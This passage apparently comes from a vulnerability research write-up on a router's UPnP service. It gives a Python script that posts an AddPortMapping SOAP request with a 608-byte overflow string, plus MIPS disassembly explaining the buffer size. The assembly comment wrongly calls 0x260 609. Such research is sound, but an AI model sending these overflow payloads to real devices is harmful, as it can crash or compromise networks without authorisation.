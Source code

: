 The request also needs the following HTML headers:

```
Content-Type: text/xml
SOAPAction: "urn:schemas-upnp-org:service:WANIPConnection:1#AddPortMapping"
```

Also, it looks like this request is commonly send using a POST. With this information the following Python test script can be made:

```python
import requests

header = {
    "Content-Type": "text/xml",
    "SOAPAction": "urn:schemas-upnp-org:service:WANIPConnection:1#AddPortMapping"
}

body = """<?xml version="1.0"?>
<s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
  <s:Body>
    <u:AddPortMapping xmlns:u="urn:schemas-upnp-org:service:WANIPConnection:1">
      <NewRemoteHost>{0}</NewRemoteHost>
      <NewExternalPort>443</NewExternalPort>
      <NewProtocol>TCP</NewProtocol>
      <NewInternalPort>443</NewInternalPort>
      <NewInternalClient>10.0.0.6</NewInternalClient>
      <NewEnabled>1</NewEnabled>
      <NewPortMappingDescription>My awesome port map</NewPortMappingDescription>
      <NewLeaseDuration>10</NewLeaseDuration>
    </u:AddPortMapping>
  </s:Body>
</s:Envelope>
"""

# must send request to the URL we first found from strings: /upnp/control?WANIPConnection
resp = requests.post("http://192.168.2.1/upnp/control?WANIPConnection", 
                     headers=header, 
                     data=body.format('A'*608))
```

A buffer size of 608 is used to test the overflow because the prologue of `FUN_80178c18` sets up the stack frame with the following MIPs assembly:

```assembly
80178c18  a0 fd bd 27  addiu sp,sp,-0x260     # 0x260 is 609
80178c1c  54 02 bf af  sw    ra,local_c(sp)
80178c20  50 02 b4 af  sw    s4,local_10(sp)
80178c24  4c 02 b3 af  sw    s3,local_14(sp)
80178c28  48 02 b2 af  sw    s2,local_18(sp)
80178c2c  44 02 b1 af  sw    s1,local_1c(sp)
80178c30  40 02 b0 af  sw    s0,local_20(sp)
```
